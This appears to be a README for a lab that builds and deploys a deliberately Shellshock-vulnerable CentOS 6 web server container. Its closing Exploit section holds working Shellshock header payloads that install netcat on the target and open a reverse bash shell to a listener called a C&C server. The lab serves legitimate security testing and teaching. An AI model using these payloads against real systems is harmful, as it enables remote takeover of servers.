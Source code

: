 # Shellshock vulnerable image

## Build

Old CentOS images are here: https://vault.centos.org/

Install it in a virtual machine.

```sh
sudo virt-install --name centos6 --os-variant centos6.5 --memory 2048 --vcpus 2 --disk size=10,alias.name=centos6 --hvm --network network=default --cdrom /var/lib/libvirt/images/CentOS-6.5-x86_64-minimal.iso
```

Mount the qcow2 image as explained [here](https://gist.github.com/shamil/62935d9b456a6f9877b5).

```sh
sudo qemu-nbd --connect=/dev/nbd0 /var/lib/libvirt/images/disk.qcow2
sudo mount /dev/mapper/VolGroup-lv_root /mnt/
sudo tar -cvf /tmp/centos6.tar . -C /mnt
sudo umount /mnt
sudo qemu-nbd --disconnect /dev/nbd0
```

Create the container image.

```sh
sudo podman import /tmp/centos6.tar vulnerable-centos:6
sudo buildah bud -t vulnerable-httpd:centos-6 .
```

Push the image to the registry of your choice.

```sh
sudo podman tag localhost/vulnerable-httpd:centos-6 registry.itix.xyz/vulnerable/vulnerable-httpd:centos-6
sudo podman push registry.itix.xyz/vulnerable/vulnerable-httpd:centos-6
```

## Usage

```sh
sudo podman run -d --rm --name vulnerable-httpd vulnerable-httpd:centos-6
POD_IP=$(sudo podman inspect --format "{{.NetworkSettings.IPAddress}}" vulnerable-httpd)
```

```
sh-4.1# curl http://$POD_IP/cgi-bin/hello.cgi -H "X-Name: Nicolas"
Hello, Nicolas!
sh-4.1# curl http://$POD_IP/cgi-bin/hello.cgi
Hello, World!
```

## Deployment

```sh
oc apply -f openshift/
```

## Exploit

Find the URL of the vulnerable CGI-BIN.

```sh
export TARGET="https://$(oc get route frontend -n vulnerable-httpd -o jsonpath="{.spec.host}")/cgi-bin/hello.cgi"
```

Start a C&C server.

```sh
sudo firewall-cmd --add-port 6666/tcp
nc -l -p 6666
```

Set the IP address of the C&C server.

```sh
export SERVER_IP=192.168.6.2
```

Exploit the target.

```sh
curl "$TARGET" -H "X-Name: () { :; }; /usr/bin/yum install -y nc"
curl "$TARGET" -H "X-Name: () { :; }; /bin/bash -i >& /dev/tcp/$SERVER_IP/6666 0>&1"
```
